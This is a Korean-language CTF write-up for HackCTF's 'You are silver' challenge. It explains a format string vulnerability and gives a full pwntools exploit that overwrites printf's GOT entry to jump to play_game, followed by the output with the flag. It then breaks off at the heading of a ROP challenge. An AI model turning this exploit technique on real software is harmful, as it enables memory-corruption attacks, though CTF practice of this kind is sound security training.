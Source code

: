 ```c
  puts("platinum can't play game. :(");
  exit(0);
}
```
그리고 함수를 보니 play_game라는 함수가 있는데, 해당 함수의 인자 값인 a1이 4면 FLAG를 읽는 것을 볼 수 있습니다. 즉, FSP 취약점을 이용해서 printf 함수의 got를 play_game에 주소로 바꿔주면 되고, v6의 값도 75보다 크게 바꿔 줘야 하는데, 이는 변수 위를 보면 s 변수가 위치한 범위 끝에 v5가 위치하기 때문제 2바이트만큼은 덮을 수 있습니다.<br>

- 시나리오<br>

1. FSB 취약점을 이용해서 printf got의 주소를 play_game 함수로 바꿔줌.
2. fgets 함수에서 마지막 2바이트까지 꽉 채워서 보내주면 알아서 v5 값이 바뀜.<br>

```python
from pwn import *
p = remote("ctf.j0n9hyun.xyz", 3022)
e = ELF("./you_are_silver")

play_game = e.sym['play_game']
printf_got = 0x601028

log.info("play_game addr : {}".format(hex(play_game)))
log.info("printf_got : {}".format(hex(printf_got)))

payload = "%4196055c"
payload += "%8$ln11"
payload += p64(printf_got)
payload += "s" * (46 - len(payload))

p.send(payload)
p.interactive()
```
여기서 `%8$ln11` 부분에서 8을 준 이유는 printf got에 값이 8번 째에서 나오기 때문입니다. 레지스터가 모두 출력 되고, 스택이 출력되는데 6번 째는 `%4196055`, 7번 째는 `c%8$ln11`, 그리고 8번째에 `printf_got`가 출력이 됩니다. 또한 `%8$ln11`에서 마지막 `11`은 8 바이트를 모두 채우기 위한 패딩입니다.<br>

```
                                              =11(\x10
You are challenger.
Challenger. Take this first!
HackCTF{N0w_Y0u_4re_b4side_0f_F4K3R}
Who are you? get out!
[*] Got EOF while reading in interactive
$  
```

> FLAG : HackCTF{N0w_Y0u_4re_b4side_0f_F4K3R}

---
HackCTF Challenge : ROP

이번 문제는 그냥 32 bit에서 간단한 ROP이므로 익스 코드만 작성하겠습니다.<br>

- 시나리오<br>
